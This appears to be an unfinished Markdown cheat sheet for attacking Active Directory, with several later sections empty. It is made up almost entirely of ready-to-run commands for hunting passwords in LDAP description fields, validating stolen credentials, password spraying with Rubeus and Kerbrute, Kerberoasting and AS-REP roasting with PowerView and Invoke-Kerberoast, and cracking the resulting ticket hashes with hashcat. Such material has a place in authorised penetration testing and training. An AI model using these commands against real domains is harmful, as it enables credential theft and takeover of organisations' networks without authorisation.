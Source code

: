 # 1. Sensitive Data in LDAP
## Start ADExplorer and search through the AD for sensitive information
`adexplorer.exe`

ADexplorer> search user description field contains pw, pwd, password, pass

## Enumerate the AD with ADRecon
`.\ADRecon.ps1`

`.\ADRecon.ps1 -GenExcel .\ADRecon-Report-timestamp`

TODO: wget Excel file since Excel will not be installed

## Check if the password is working
```
function Test-ADCredential {

    [CmdletBinding()]
    Param
    (
        [string]$UserName,
        [string]$Password
    )
    if (!($UserName) -or !($Password)) {
        Write-Warning 'Test-ADCredential: Please specify both user name and password'
    } else {
        Add-Type -AssemblyName System.DirectoryServices.AccountManagement
        $DS = New-Object System.DirectoryServices.AccountManagement.PrincipalContext('domain')
        $DS.ValidateCredentials($UserName, $Password)
    }
}
```

`Test-ADCredential -UserName printeradm -Password "x!3945jjlkJ2mN4QQ2"`

# 2. Password Spraying
## Identify the standard domain password and start a password spray attack
### Rubeus
`.\Rubeus.exe brute /password:Start123!`

### Kerbrute
`Invoke-WebRequest "https://github.com/ropnop/kerbrute/releases/download/v1.0.3/kerbrute_windows_amd64.exe" -OutFile ".\kerbrute.exe"`

`Import-Module .\PowerView.ps1`

`(Get-NetUser | select samAccountName).samAccountName > users.txt`

`.\kerbrute.exe passwordspray --domain contoso.azure .\users.txt Start123!`

ToDo error

# 3. Kerberoasting
## Identify Kerberoastable users
### PowerView
`Import-Module .\PowerView.ps1`

`Get-NetUser | Where-Object {$_.servicePrincipalName} | fl`

`Get-NetUser -SPN | ft serviceprincipalname, samaccountname, cn, pwdlastset`

### PowerView-Dev
`Import-Module .\PowerView-dev.ps1`

`Get-DomainUser | Where-Object {$_.servicePrincipalName} | fl`

`Get-DomainUser -SPN | ft serviceprincipalname, samaccountname, cn, pwdlastset`

### Invoke-Kerberoast
`Import-Module .\Invoke-Kerberoast.ps1`

`Invoke-Kerberoast`

### Rubeus
`.\Rubeus.exe kerberoast`

## Get TGS Kerberos Tickets
### PowerView-Dev
`Import-Module .\PowerView-dev.ps1`

`Get-DomainUser -SPN | Get-DomainSPNTicket -OutputFormat Hashcat | % { $_.Hash } | Out-File -Encoding ASCII kerberoasted.txt`

### Invoke-Kerberoast
`Import-Module .\Invoke-Kerberoast.ps1`

`Invoke-Kerberoast | % { $_.Hash } | Out-File -Encoding ASCII kerberoasted.txt`

### Rubeus
`.\Rubeus.exe kerberoast /outfile:kerberoasted.txt`

## Crack TGS tickets
`hashcat -a 0 -m 13100 kerberoasted.txt /usr/share/wordlists/rockyou.txt`

# 4. ASREPRoasting
## Identify AS-REP roastable users
### PowerView-Dev
`Get-DomainUser -PreauthNotRequired | ft samaccountname, pwdlastset`

`Get-DomainUser -UACFilter DONT_REQ_PREAUTH,NOT_PASSWORD_EXPIRED | ft samaccountname, pwdlastset`

### Rubeus
`.\Rubeus.exe asreproast`

### Invoke-ASREPRoast
`Import-Module .\Invoke-ASREPRoast.ps1`

`Invoke-ASREPRoast`

## ASREPRoasting
### Rubeus
`.\Rubeus.exe asreproast /format:hashcat /outfile:asrephashes.txt`

### Invoke-ASREPRoast
`Invoke-ASREPRoast | % { $_.Hash } | Out-File -Encoding ASCII asrephashes.txt`

## Cracking AS-REP hash with Hashcat
`hashcat -a 0 -m 18200 asrephashes.txt /usr/share/wordlists/rockyou.txt`

# 5. PASSWD NOT REQ
Get-ADUser -Filter {PasswordNotRequired -eq $true}

ToDO

# 6. GPPPassword


# 7. Unconstrained Delegation


# 8. Constrained Delegation


# 9. Silver Tickets


# 10. ACLs/ACEs


# 11. GPO Abuse


# 12. Golden Ticket, DCSync, Skeleton, ...


# 13. Forest Trust Abuse


# 14. Bastion

